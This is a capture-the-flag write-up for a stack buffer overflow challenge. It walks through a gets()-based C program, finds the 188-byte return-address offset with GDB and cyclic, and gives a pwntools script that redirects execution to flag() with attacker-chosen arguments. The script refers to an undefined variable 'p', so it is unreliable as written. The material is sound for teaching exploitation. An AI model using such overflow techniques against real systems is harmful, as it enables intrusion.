






[Back](PicoFrontPage.md)

# Overflow 2
---

### Tools
* GEF-GDB
* Pwntools - Python3
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments
* Calls `gets()` again

### Analysis

#### Static

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->


So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->


Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`.
Convert it to bytes through:
```
python
0xbc
```
And it should return 188 bytes

#### Dynamic

Let's confirm if what we assumed is right through dynamic analysis.
Use the cyclic tool to get a string to feed to the program: `cyclic 200`.

Run GDB for the program: `gdb ./vuln` and then `run`.

Feed the string to the input and then analyze.

<!-- OverflowedOverflow2 -->


We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->


This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->

<!-- Overflow2argsdisassembler2 -->


We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.
To help you visualize:

<!-- StackOverflow2WithArgs -->


Now, do the classic, find out the `flag()` address.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln')

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

p.recvuntil(b'Please enter your string:')

p.sendline(payload)

p.interactive()
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)